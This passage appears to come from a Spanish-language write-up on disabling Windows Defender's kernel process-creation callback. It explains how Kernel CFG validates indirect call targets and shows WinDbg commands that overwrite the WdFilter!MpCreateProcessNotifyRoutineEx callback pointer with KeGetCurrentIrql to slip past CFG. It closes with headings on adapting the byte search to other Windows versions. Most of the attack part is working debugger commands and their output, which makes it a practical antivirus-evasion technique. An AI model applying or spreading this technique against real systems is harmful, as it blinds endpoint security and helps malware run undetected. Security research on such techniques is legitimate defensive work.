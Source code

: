 La función real a la que queremos llamar se cargará en rax y se llamará a KCFG (nt!guard_dispatch_icall), que verificará que la función dentro de rax es una función válida mediante un mapa de bits usando el siguiente proceso (el proceso está dentro de nt!guard_dispatch_icall).

Los cálculos se basan en la función `nt!KeGetCurrentIrql`, porque esta es la función que vamos a acabar llamando.

<pre>
lkd> ? nt!KeGetCurrentIrql >> 9 (Will be used as Index)
Evaluate expression: 36028779900694815 = 007ffffc`03abf11f

lkd> ? (nt!KeGetCurrentIrql >> 3) mod 40 (BitToCheck)
Evaluate expression: 54 = 00000000`00000036

lkd> dqs nt!guard_icall_bitmap L1
fffff807`58a01900  fbffa8d7`9452c248

lkd> dqs fbffa8d7`9452c248 + 007ffffc`03abf11f (Index) * 0x08 L1 (Entry)
ffffa8b7`b1b24b40  00410004`00004400

lkd> .formats 00410004`00004400
Evaluate expression:
Binary:  00000000 0<mark>1</mark>000001 00000000 00000100 00000000 00000000 01000100 00000000
</pre>

El `BitToCheck` que en nuestro caso es el bit 54 tiene que ser `1`, si es `1` significa que la llamada es válida que es el caso de `KeGetCurrentIrql`.

Así que el plan es reemplazar la función que apunta a la función AV a llamar (`fffff807252e9b70`) por KeGetCurrentIrql (`fffff80723623fb0`) lo que hará la entrada inútil.

<pre>
lkd> u KeGetCurrentIrql L2
<mark>nt!KeGetCurrentIrql:</mark>
<mark>fffff807`23623fb0</mark> 440f20c0        mov     rax,cr8
fffff807`23623fb4 c3              ret
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark><del>fffff807`252e9b70</del></mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> eq ffff800e`5c7f7258 fffff807`23623fb0
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark>fffff807`23623fb0</mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> u fffff807`252e9b70 L2
<mark>WdFilter!MpCreateProcessNotifyRoutineEx:</mark>
<mark>fffff805`55e99b70</mark> 48895c2410      mov     qword ptr [rsp+10h],rbx
fffff805`55e99b75 48894c2408      mov     qword ptr [rsp+8],rcx
</pre>

## Cómo Arreglar el código para que funcione en tu versión de windows (callback de creación de proceso primero)

### Arreglar los bytes para la búsqueda de bytes para tu SO windows
